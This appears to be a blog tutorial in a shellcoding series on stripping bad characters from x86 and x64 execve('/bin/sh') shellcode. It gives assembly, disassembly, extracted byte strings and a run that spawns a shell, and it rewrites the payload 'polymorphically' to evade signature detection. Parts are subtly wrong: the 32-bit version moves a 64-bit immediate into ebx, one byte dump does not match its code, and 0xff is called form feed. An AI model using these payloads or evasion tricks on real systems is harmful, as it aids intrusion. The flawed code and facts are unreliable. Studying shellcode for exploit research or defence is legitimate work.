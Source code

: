 ```yaml
---
title: "18. Eliminating Bad Chars"
categories: [Programming, x86-64 Assembly]
tags: [Assembly, x86, x86-64]
mermaid: true
---
```


Now in our journey of shellcoding we will try to eliminate bad chars which create nuisance and break our exploit.

Common Bad Characters:

- `0x0A` (newline) - breaks in input functions
- `0x0D` (carriage return) - breaks in network protocols
- `0x00` (null) - string terminator
- `0xff` (form feed) - Sometimes used in serial communications

### JMP-POP Technique

Although in the previous blog we have used this technique, in this section I'll show you how to rewrite that code using JMP-CALL-POP and explain why it's often preferred.

Here's how you can rewrite your shellcode using the JMP-CALL-POP method:

```s
section .text
    global _start

_start:
    jmp short get_string   ; Jump to the get_string label

code:
    pop ebx               ; ebx now points to "/bin/sh" string
    xor eax, eax          ; Clear eax
    mov al, 11            ; execve syscall number
    xor ecx, ecx          ; argv = NULL
    xor edx, edx          ; envp = NULL  
    int 0x80              ; Invoke syscall

get_string:
    call code             ; This pushes the next address onto stack
    db '/bin/sh', 0       ; The string data
```

`jmp short get_string` will Jump to the `get_string` label. The `call code` does two things:
- Pushes the address of the next instruction (where our string is) onto the stack
- Jumps to the `code` label

The next instruction `pop ebx` pops the saved address (pointing to our string) into ebx. **Now ebx points directly to "/bin/sh"** and we can proceed with the syscall.

Let's assemble and examine:

```bash
$ objdump -M intel -d jmp_pop_execve32

jmp_pop_execve32:     file format elf32-i386


Disassembly of section .text:

08049000 <_start>:
 8049000:	eb 0b                	jmp    804900d <get_string>

08049002 <code>:
 8049002:	5b                   	pop    ebx
 8049003:	31 c0                	xor    eax,eax
 8049005:	b0 0b                	mov    al,0xb
 8049007:	31 c9                	xor    ecx,ecx
 8049009:	31 d2                	xor    edx,edx
 804900b:	cd 80                	int    0x80

0804900d <get_string>:
 804900d:	e8 f0 ff ff ff       	call   8049002 <code>
 8049012:	2f                   	das    
 8049013:	62 69 6e             	bound  ebp,QWORD PTR [ecx+0x6e]
 8049016:	2f                   	das    
 8049017:	73 68                	jae    8049081 <get_string+0x74>

```

Now let's check for null bytes:

```bash
$ ./shellcode_kit.sh  -a x86 --extract jmp_pop_execve32
$ cat shellcode_jmp_pop_execve32.txt 
\xeb\x0b\x5b\x31\xc0\xb0\x0b\x31\xc9\x31\xd2\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
```

Beautiful, isn't it? No null bytes, no hardcoded addresses.

And we can pass this to our loader -

```bash
./shellcode_kit.sh  -a x86 --run jmp_pop_execve32
Executing Shellcode
----------------------------------------
Shellcode Length: 25 bytes
Allocated executable memory at: 0xeea74000
Executing shellcode...
$ whoami
fury

```

### Storing String on Stack

Sometimes we need to be even more creative. Instead of storing our string in the code section, we can build it directly on the stack:
#### x86 Version (32-bit)

```s
section .text
    global _start

_start:
    ; execve("/bin/sh", NULL, NULL)
    xor ecx, ecx          ; Clear ecx (argv = NULL)
    mul ecx               ; Clear eax and edx (edx = envp = NULL)
    mov ebx, 0x68732f6e69622f2f ; "//bin/sh" in reverse
    push ecx              ; Push NULL
    push ebx              ; Push "/bin/sh" string
    mov ebx, esp          ; ebx points to "/bin/sh" string
    mov al, 11            ; execve syscall number
    int 0x80
```

#### x64 Version (64-bit)

```s
section .text
    global _start

_start:
    ; execve("/bin/sh", NULL, NULL)
    xor rsi, rsi          ; Clear rsi (argv = NULL)
    mul rsi               ; Clear rax and rdx (rdx = envp = NULL)
    mov rdi, 0x68732f6e69622f2f ; "//bin/sh" in reverse (little-endian)
    push rsi              ; Push NULL
    push rdi              ; Push "/bin/sh" string
    mov rdi, rsp          ; rdi points to "/bin/sh" string
    mov al, 59            ; execve syscall number
    syscall
```

### The Art of Polymorphism

In our `execve` x86 shellcode -

```bash
$ cat shellcode_execve32.txt 
\x31\xc9\xf7\xe1\xbb\x2f\x2f\x62\x69\x51\x53\x89\xe3\xb0\x0b\xcd\x80
```

Now let's talk about real stealth: imagine our original shellcode gets detected because it contains `\x31` bytes from the `xor` instruction. To avoid detection, we need to rewrite it without changing its function—this is polymorphism in action. By doing so, we create a **polymorphic shellcode**, where the core functionality remains the same, but the assembly instructions and resulting bytecode are altered, making it a fundamental technique for evading signature-based detection.

Let's break down the original code and see where we can make substitutions.

**Step 1: Clearing the Registers Differently**

The original shellcode uses `xor` to zero out register `ecx`.

- `xor ecx, ecx` = `\x31\xc9`


Our target is the `\x31` byte. How else can we zero a register?

- `sub ecx, ecx` (Subtract itself) - `\x29\xc9`
- `mov ecx, 0` (Move zero) - `\xb9\x00\x00\x00\x00` (Not useful)
- `and ecx, 0` (Bitwise AND with zero) - `\x83\xe1\x00` (Not useful)

Let's go with `sub ecx, ecx`. It's the same size and just as effective!

**Step 2: Building the String on the Stack (Alternative Approach)**

The original code moves the entire 8-byte string into `ebx` and then pushes it. The instruction `mov ebx, 0x68732f6e69622f2f` contains no "bad" bytes for us in this exercise, but it's a very recognizable sequence. Let's try a different, more stealthy approach: building the string using smaller values.

We can push the string `"/bin/sh"` onto the stack in two 4-byte chunks. Remember, the stack grows downward, and we need to account for null-termination and little-endian order.

We want to push `//bin/sh` (using two slashes to make it 8 bytes is a common trick). Let's split it:

- `hs/n` = `0x68732f6e`
- `ib//` = `0x69622f2f`

But instead of using `mov` with these large, recognizable numbers, we can construct them using arithmetic operations. A common trick is to avoid `0x00` bytes (null terminators) and other common low bytes.

Here is our rewritten, polymorphic version of the shellcode. It avoids the `\x31` byte and uses a different method to build the string.

```s
section .text
    global _start

_start:
    ; execve("/bin/sh", NULL, NULL) - Polymorphic Version

    ; Clear registers without using XOR
    sub ecx, ecx        ; ecx = 0 (argv = NULL). Replaces XOR.
    mov eax, ecx        ; eax = 0 (we'll set the syscall later)
    mov edx, ecx        ; edx = 0 (envp = NULL). Replaces MUL.

    ; Build the string "//bin/sh" on the stack creatively
    push ecx            ; Push NULL terminator (0x00000000)
    
    ; Push "//bin/sh" by using smaller moves and a shift
    ; Push "//sh" (0x68732f2f)
    mov esi, 0x57621e1e
    add esi, 0x11111111 ; 0x57621e1e + 0x11111111 = 0x68732f2f 
    push esi            ; Push first part ("hs//")

    ; Push "/bin" (0x6e69622f) 
    mov esi, 0x5d58511e
    add esi, 0x11111111 ; 0x5d58511e + 0x11111111 = 0x6e69622f 
    push esi            ; Push second part ("nib/")
    ; Stack now has "/bin//sh"

    mov ebx, esp        ; ebx points to our string

    ; Set up the syscall
    mov al, 11          ; execve syscall number
    int 0x80

```

If you try to dump shellcode and verify we don't have any `0x31` now. Also we have encoded our string `/bin//sh`

```bash
$ cat shellcode_polymorphic_x86.txt 
\x29\xc9\x89\xc8\x89\xca\x51\xbe\x1e\x1e\x62\x57\x81\xc6\x11\x11\x11\x11\x56\xbe\x1e\x51\x58\x5d\x81\xc6\x11\x11\x11\x11\x56\x89\xe3\xb0\x0b\xcd\x80

```

No `\x31` in sight! We've successfully disguised our shellcode while keeping the same functionality.

So what did we learn from all this? Well, in the world of hacking, it's a constant game of cat and mouse. We figured out how to remove the bad `0x31` byte, but our new shellcode got bigger and more complicated. It's a classic trade-off: to be more sneaky, you often have to be less efficient. There's hardly ever just one right answer—just different tools for different jobs.